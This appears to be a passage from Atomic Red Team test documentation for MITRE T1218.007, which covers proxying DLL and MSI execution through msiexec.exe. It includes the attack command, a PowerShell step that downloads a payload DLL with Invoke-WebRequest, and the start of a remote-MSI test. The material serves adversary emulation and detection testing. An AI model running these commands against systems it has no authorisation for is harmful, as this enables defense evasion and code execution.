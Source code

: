 <br/>
<br/>

## Atomic Test #10 - Msiexec.exe - Execute the DllUnregisterServer function of a DLL

Loads a DLL into msiexec.exe and calls its DllUnregisterServer function. Note: the DLL included in the "bin" folder is only built for 64-bit, so this won't work on a 32-bit OS.

**Supported Platforms:** Windows

**auto_generated_guid:** ab09ec85-4955-4f9c-b8e0-6851baf4d47f

#### Inputs:

| Name        | Description                                                         | Type | Default Value                                               |
| ----------- | ------------------------------------------------------------------- | ---- | ----------------------------------------------------------- |
| dll_payload | DLL to execute that has an implemented DllUnregisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll |
| msi_exe     | MSIExec File Path                                                   | path | c:&#92;windows&#92;system32&#92;msiexec.exe                 |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{msi_exe} /z "#{dll_payload}"
```

#### Dependencies: Run with `powershell`!

##### Description: The DLL must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #11 - Msiexec.exe - Execute Remote MSI file

Execute arbitrary MSI file retrieved remotely. Less commonly seen in application installation, commonly seen in malware execution. The MSI executes a built-in JScript payload that launches powershell.exe.

**Supported Platforms:** Windows
